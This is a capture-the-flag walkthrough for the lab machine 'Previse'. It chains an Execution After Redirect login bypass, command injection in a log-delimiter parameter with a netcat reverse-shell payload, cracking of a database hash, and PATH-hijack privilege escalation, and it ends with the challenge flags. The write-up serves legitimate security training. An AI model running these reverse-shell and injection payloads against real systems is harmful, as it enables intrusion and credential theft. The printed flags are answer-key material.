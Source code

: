 # Previse - Easy

```shell
nmap -T4 -p- -A -Pn -v previse.htb

gobuster dir -u http://previse.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html,bak -t 50

ffuf -c -u "http://previse.htb" -H "Host: FUZZ.previse.htb" -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -t 50 -s
#subdomain enumeration

ffuf -c -u "http://previse.htb" -H "Host: FUZZ.previse.htb" -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -t 50 -s -fw 737
#filtering false positives

#login by exploiting EAR vulnerability
#command execution in logs page

#setup listener
nc -nvlp 4444
#command injection in Logs page
#we get reverse shell

python3 -c 'import pty;pty.spawn("/bin/bash")'

ls -la

cat config.php
#contains mysql creds

mysql -u root -p
#enter password found above

show databases;

use previse;

show tables;

select * from accounts;
#we get hash for m4lwhere

#in attacker machine
vim hash.txt
#paste hash

hashcat -a 0 hash.txt /usr/share/wordlists/rockyou.txt
#md5crypt hash
#cracks the hash

ssh m4lwhere@previse.htb
#using the cracked password, we can login

#get user flag

sudo -l
#we can execute a script as root

cat /opt/scripts/access_backup.sh

#path injection

echo "sh -i >& /dev/tcp/10.10.14.2/4445 0>&1" > gzip

chmod +x gzip

export PATH=/home/m4lwhere/:$PATH

echo $PATH

#setup listener in attacker machine
nc -nvlp 4445

sudo /opt/scripts/access_backup.sh
#this gives us root shell on our listener
```

* Open ports & services:

  * 22 - ssh - OpenSSH 7.6p1 (Ubuntu)
  * 80 - http - Apache httpd 2.4.29

* The webpage on port 80 is a login page for 'Previse File Storage'.

* Using ```gobuster```, we can enumerate the directories - most of them cannot be accessed as we are not logged in.

* We can access /nav.php, which includes a sitemap for the website.

* We can also access /header.php, /footer.php and /config.php, but these pages do not show anything.

* Meanwhile, we can also attempt to check for subdomains using ```ffuf``` - we can ignore false positives using the ```-fw``` flag.

* Now, if we intercept the request to another directory, such as /files.php, and send the request to Repeater, we can view the response.

* This response (before redirect) uses 302 status code, but it also contains the webpage source code.

* So, for all the enumerated pages, we can view the source code as response using Burp Suite Repeater.

* This is an example of ```EAR (Execution After Redirect) vulnerability```.

* We can try to view the /index.php page and exploit this vulnerability.

* We can intercept a request to /index.php, and in Burp Suite, we can enable 'Do Intercept > Response to this Request'.

* In the response, we can modify '302 Found' in the header to '200 OK' as if it is a normal page.

* Using this, we are able to bypass login and view /index.php

* This includes a page for 'Create Account' - we can use the same technique of modifying the response to the request, and add another user.

* After adding a new user, we can login as that user and get access to /index.php as usual.

* We can download 'SITEBACKUP.ZIP' from the Files page; this gives us source code in the form of PHP files.

* We can enumerate the webpage and go through the files simultaneously in order to check source code.

* In the 'Request Log Data' page, we have the ability to set delimiters in our logs.

* The ```logs.php``` file contains its source code, and it shows that it uses Python for this - we can attempt for command execution.

* By intercepting the request to this page, and sending it to Repeater, we can modify the 'delim' parameter by adding a semicolon and executing 'sleep' command:

```delim=comma; sleep 3```

* This gives response after 3 seconds, so we can attempt to get reverse shell:

```delim=comma; rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|sh+-i+2>%261|nc+10.10.14.2+4444+>/tmp/f```

* We get reverse-shell on our listener, after executing URL-encoded command.

* From the ```config.php``` file in web directory, we get ```mysql``` creds "root:mySQL_p@ssw0rd!:)"

* Logging into ```mysql```, we can see the 'previse' database - this contains two tables 'accounts' and 'files'.

* The 'accounts' table contains hashes for 'm4lwhere' and the user we created earlier.

* We can attempt to crack the hash for 'm4lwhere' user using ```hashcat```.

* As the hash includes an emoji, we are unable to detect the hash type using online services.

* However ```hashcat``` is able to auto-detect the hash to be of type 'md5crypt', and we are able to crack the hash and get the password.

* Using this password, we are able to login as 'm4lwhere' via SSH.

* Checking ```sudo -l```, we can run a script as root; furthermore, it does not show the usual header in ```sudo -l```, which contains entries such as ```env_reset``` and ```secure_path```.

* This means we can attempt ```path injection``` in this case as the script calls 'gzip' using relative path.

* So, we can create a malicious binary 'gzip' in our home directory, add that path to PATH variable, and execute the script as root.

* We get a root shell on our listener as a result.

```markdown
1. User flag - c71c9afd035c06d4b3e8ce3d706fd0c7

2. Root flag - 0f320763fda0451d24ca0e66e0758329
```
